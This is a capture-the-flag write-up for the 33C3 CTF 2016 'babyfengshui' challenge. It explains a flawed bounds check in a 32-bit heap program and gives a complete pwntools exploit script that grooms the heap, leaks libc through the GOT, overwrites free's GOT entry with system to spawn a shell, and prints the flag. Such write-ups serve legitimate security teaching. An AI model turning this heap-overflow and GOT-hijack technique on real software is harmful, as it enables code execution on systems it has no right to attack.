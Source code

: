 ```yaml
---
title: '33C3 CTF 2016 -- babyfengshui'
date: 2016-12-30 00:27
tags:
  - 33C3
  - CTF
  - Pwnable
  - heap_overflow
  - heap
  - Python
categories:
  - write-ups
author: bruce30262
---
```

**Category:** pwn
**Points:** 150

<!-- more -->  

32 bit ELF, with Partial RELRO, canary & NX enabled, No PIE  

program menu:
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
Here's the data structure of a user:
```c 
struct user{
    char* desc;
    char name[124];
};
```
The program will free `user->desc` & `user` while deleting a user. It also clear the pointer of the `user`, so there's no Use-After-Free vulnerability. 

The program has some strange protection while setting the user's description:
```c
// users = struct user *users[]
if ( &users[id]->desc[text_len] >= &users[id] - 4 )
{
    puts("my l33t defenses cannot be fooled, cya!");
    exit(1);
}
printf("text: ");
read_n(users[id]->desc, text_len + 1);
```
So `user->desc + text_len` must < `user` (both `user->desc` and `user` are pointers). Guess it use this protection to avoid heap overflow.

But what if we have the following heap memory layout?
```

            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
```
According to the protection, `userD->desc + text_len` should less than `userD`, **which means it will be ok to overwrite the whole `userB` and `userC`**.

It is possible to arrange the above heap memory layout if we're familiar with malloc's memory allocation. We can then exploit the heap overflow vulnerability and modify the `userB->desc` pointer, making us able to do the **read/write anywhere** attack. After that is pretty simple, we leak the libc's base address and hijack `free`'s GOT to get the shell.

```python exp_baby.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.83"
PORT = 1456
ELF_PATH = "./babyfengshui_noalarm"
LIBC_PATH = "./libc-2.19.so"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc = "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 = user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`
